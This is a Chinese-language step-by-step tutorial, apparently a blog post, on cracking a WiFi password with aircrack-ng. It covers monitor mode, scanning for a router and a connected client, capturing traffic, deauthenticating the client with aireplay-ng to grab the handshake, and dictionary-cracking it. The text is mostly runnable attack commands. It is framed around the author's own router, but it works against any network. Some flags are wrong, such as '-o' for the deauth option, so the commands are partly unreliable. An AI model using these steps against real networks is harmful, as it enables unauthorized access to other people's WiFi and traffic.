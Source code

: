 aircreck-ng 工具，首先将网卡更改为监听模式。  

确定目标的mac地址，以及信道，连接数  

模拟无线信息，抓取密码信息。  

确定目标用户，发起对目标用户的攻击。  

得到无线加密信息并进行破解。  

#首先将网卡更改为监听模式  

airmon-ng start wlan0  找到你自己的网卡，设置为监听模式 。        需要注意的是，网卡在设置成为监听模式后网卡名称可能会发生改变。  

#扫描附近的WIFI  

airodump-ng wlan0mon 这诶里的wlan0mon就是我监听模式下网卡的名称。		

在扫描过程中看到的BSSID就是无线WIFI的MAC地址了！ 首先将这个地址记录下来。 稍等我们会用到。  

比如是CC:BB:FE:FA:B5:80    这个是我的路由器地址。  

那么我们还需要搜索一个目前正在连接这个WIFI的用户，找到并且记录下MAC地址。

比如是24:92:0E:26:26:6E  这个是我自己的手机。

其中看到的CH信息为信道！ 需要记住，等一会模拟的时候会用到。

AUTH这个字段是代表加密方式。 大概了解即可。





#模拟WIFI信号开始进行欺骗。

airodump-ng --ivs -w wifi-pass --bssid CC:BB:FE:FA:B5:80 -c 1 wlan0mon

其中ivs是指定文件的格式（也就是后缀）

--w 是指定你文件的名称，这个名称是等一会你欺骗到加密字符串后进行保存的文档。

-bssid 是你的路由器的MAC地址

-c 是刚才看到的路由器的信道

wlan0mon 是你需要指定的网卡。

注：在抓到加密的密码后会在右上角看到一串字符，这时候停止欺骗即可。



#使用另一个终端进行攻击正在连接的用户。

aireplay-ng -o 9999 -a CC:BB:FE:FA:B5:80 -c 24:92:0E:26:26:6E wlan0mon

-o是指发送数据包的数量，可随意设定。目的是攻击到靶机进行重新连接

-a指定攻击的靶机路由器的地址！ 

-c是被攻击的靶机的mac地址。！

当看到shell窗口右上角显示handshake：xx*xx*xx*xx*xx：c

这个时候就说明你已经拿到了加密的密码。



#指定密码本或者密码来进行破解此加密的字符串。

aircrack-ng wifi-pass-01.ivs -w /Download/password.txt

wifi-pass-01.ivs 是在抓密码之前就设定的保存文档名称。

-w 是指定密码本的路径，在文档的路径下进行寻找即可。！

破解后密码会在shell窗口中显示。

#最后在重新启动网卡。

airmon-ng stop wlan0mon

重新连接wifi即可！！！